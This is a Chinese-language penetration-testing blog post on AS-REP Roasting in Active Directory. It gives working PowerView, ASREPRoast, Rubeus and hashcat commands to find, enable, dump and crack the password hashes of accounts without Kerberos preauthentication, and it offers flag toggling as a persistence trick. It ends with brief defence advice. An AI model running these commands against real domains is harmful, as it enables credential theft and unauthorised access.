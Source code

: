 ```yaml
---
layout: post
title: 域渗透——AS-REPRoasting
---
```



## 0x00 前言
---

AS-REP Roasting同Kerberoasting类似，如果满足条件，就能够获得用户口令的hash，再结合hashcat进行破解，最后能够还原出用户的明文口令。

本文将要参考公开资料，结合自己的理解，介绍AS-REP Roasting的利用方法，最后给出防御建议。

## 0x01 简介
---

本文将要介绍以下内容：

- AS-REP Roasting的原理
- AS-REP Roasting的利用条件
- AS-REP Roasting的利用方法
- 破解hash的方法
- 防御建议

## 0x02 AS-REP Roasting
---

### 1.简介

对于域用户，如果设置了选项"Do not require Kerberos preauthentication"，此时向域控制器的88端口发送AS-REQ请求，对收到的AS-REP内容重新组合，能够拼接成"Kerberos 5 AS-REP etype 23"(18200)的格式，接下来可以使用hashcat对其破解，最终获得该用户的明文口令

### 2.利用前提

域用户设置了选项"Do not require Kerberos preauthentication"

通常情况下，该选项默认不会开启

### 3.利用思路

通常在域渗透中用来维持权限

需要先获得对指定用户的GenericWrite权限，利用思路如下：

1. 开启用户选项"Do not require Kerberos preauthentication"
2. 导出hash并破解
3. 关闭用户选项"Do not require Kerberos preauthentication"

## 0x03 AS-REP Roasting的利用方法
---

### 1.寻找满足条件的用户

用户需要开启选项"Do not require Kerberos preauthentication"

这里可以使用LDAP查询满足条件(userAccountControl:1.2.840.113556.1.4.803:=4194304)的用户

参考资料：

https://support.microsoft.com/en-us/help/305144/how-to-use-useraccountcontrol-to-manipulate-user-account-properties

https://github.com/PowerShellMafia/PowerSploit/blob/445f7b2510c4553dcd9451bc4daccb20c8e67cbb/Recon/PowerView.ps1#L4769

DONT_REQ_PREAUTH项对应的值为4194304

PowerView的命令如下：

```
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired -Verbose
```

示例如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-18/2-1.png)

只显示distinguishedname项：

```
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
```

示例如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-18/2-2.png)

### 2.开启和关闭选项"Do not require Kerberos preauthentication"

开启选项意味着对用户添加属性(userAccountControl=4194304)

开启选项的命令如下：

```
Import-Module .\PowerView.ps1
Set-DomainObject -Identity testb -XOR @{userAccountControl=4194304} -Verbose
```

关闭选项意味着删除用户属性(userAccountControl=4194304)

**注：**

这里可以再次进行异或运算，两次异或相当于不改变原数值，即删除用户属性(userAccountControl)

关闭选项的命令如下：

```
Import-Module .\PowerView.ps1
Set-DomainObject -Identity testb -XOR @{userAccountControl=4194304} -Verbose
```

### 3.导出hash

#### (1)使用Powershell

https://github.com/HarmJ0y/ASREPRoast

导出所有可用用户hash的命令如下：

```
Import-Module .\ASREPRoast.ps1
Invoke-ASREPRoast -Verbose |fl
```

示例如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-18/3-1.png)

导出指定用户hash的命令如下：

```
Get-ASREPHash -UserName testb -Verbose
```

示例如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-18/3-2.png)

提取出hash：

```
$krb5asrep$testb@test.com:a128092441a3af80015554db2f3fe44e$d69b44c7d9cf36261a012d012f636a2124837af89a48ef686e1ac7572af93741fc801423443a85c9aacd6a5f85f1d840d07b09e68795ce691a818fa765674c3f25492ed49e7274d98096d599c9ff0de6e169efdb3429cde39dbdea4633580981bcb34ecf330d0cb2cb194e2944f77b8fc15c056684fee33d3ee7e0b86bc56072c3bfcd2d3abeb06bfb42144a06cf90c5c60e9c255d93d9c62bbf1cc37e75d8f6d22120bf8de673db20f108da96a9e3d9d099346fff8619f49961feeaf96c35eb1a237b42b6716012dfc08d96146eb1df65e9a66a67685c04f8ab7e21bfa36800babc1ad3
```

#### (2)使用C#(Rubeus)

https://github.com/GhostPack/Rubeus

命令如下:

```
Rubeus.exe asreproast
```

示例如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-18/3-3.png)

### 4.使用hashcat进行破解

提取出hash：

```
$krb5asrep$testb@test.com:a128092441a3af80015554db2f3fe44e$d69b44c7d9cf36261a012d012f636a2124837af89a48ef686e1ac7572af93741fc801423443a85c9aacd6a5f85f1d840d07b09e68795ce691a818fa765674c3f25492ed49e7274d98096d599c9ff0de6e169efdb3429cde39dbdea4633580981bcb34ecf330d0cb2cb194e2944f77b8fc15c056684fee33d3ee7e0b86bc56072c3bfcd2d3abeb06bfb42144a06cf90c5c60e9c255d93d9c62bbf1cc37e75d8f6d22120bf8de673db20f108da96a9e3d9d099346fff8619f49961feeaf96c35eb1a237b42b6716012dfc08d96146eb1df65e9a66a67685c04f8ab7e21bfa36800babc1ad3
```

拼接成hashcat能够识别的格式需要在`$krb5asrep`后面添加`$23`

hashcat使用字典破解的参数如下：

```
hashcat -m 18200 '$krb5asrep$23$testb@test.com:a128092441a3af80015554db2f3fe44e$d69b44c7d9cf36261a012d012f636a2124837af89a48ef686e1ac7572af93741fc801423443a85c9aacd6a5f85f1d840d07b09e68795ce691a818fa765674c3f25492ed49e7274d98096d599c9ff0de6e169efdb3429cde39dbdea4633580981bcb34ecf330d0cb2cb194e2944f77b8fc15c056684fee33d3ee7e0b86bc56072c3bfcd2d3abeb06bfb42144a06cf90c5c60e9c255d93d9c62bbf1cc37e75d8f6d22120bf8de673db20f108da96a9e3d9d099346fff8619f49961feeaf96c35eb1a237b42b6716012dfc08d96146eb1df65e9a66a67685c04f8ab7e21bfa36800babc1ad3' /usr/share/john/password.lst -o found.txt --force
```

参数说明：

`/usr/share/john/password.lst`为字典文件的位置
`-o found.txt`表示输出结果的位置

## 0x04 防御建议
---

1.确保域内不存在开启"Do not require Kerberos preauthentication"的用户

扫描方法(使用PowerView)：

```
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired -Verbose
```

2.域用户强制使用复杂口令，提高被字典和暴力破解的难度

## 0x05 小结
---

本文介绍了AS-REP Roasting在域渗透中的利用条件和方法，给出防御建议


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)




